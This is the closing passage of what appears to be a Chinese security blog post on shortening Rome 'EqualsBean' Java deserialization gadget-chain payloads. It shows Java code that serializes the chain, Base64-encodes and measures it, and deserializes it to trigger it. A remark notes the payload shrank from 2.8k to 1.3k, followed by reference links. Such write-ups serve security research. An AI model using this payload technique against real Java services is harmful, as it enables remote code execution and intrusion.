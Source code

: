 ```bash
        hashMap.put(equalsBean, "1");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashMap);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(barr.toByteArray())));
        System.out.println(new String(Base64.getEncoder().encode(barr.toByteArray())).length());

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = ois.readObject();
        }

    }
```

[![](assets/1701612185-9207a9cd236f1f0340919507d611d066.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230807155316-77b36c42-34f7-1.png)

可以看到缩短以后 EqualsBean 的链子从 2.8k 缩短到了 1.3k，缩短了百分之五十还多，达到了我们缩短 payload 的目的

参考文章：  
[https://goodapple.top/archives/1145](https://goodapple.top/archives/1145)  
[https://forum.butian.net/share/2137](https://forum.butian.net/share/2137)  
[https://boogipop.com/2023/04/26/%E6%98%93%E6%87%82%E7%9A%84Rome%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%EF%BC%88%E6%9B%B4%E6%96%B0%EF%BC%89/#EqualsBean%E9%93%BE](https://boogipop.com/2023/04/26/%E6%98%93%E6%87%82%E7%9A%84Rome%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%EF%BC%88%E6%9B%B4%E6%96%B0%EF%BC%89/#EqualsBean%E9%93%BE)
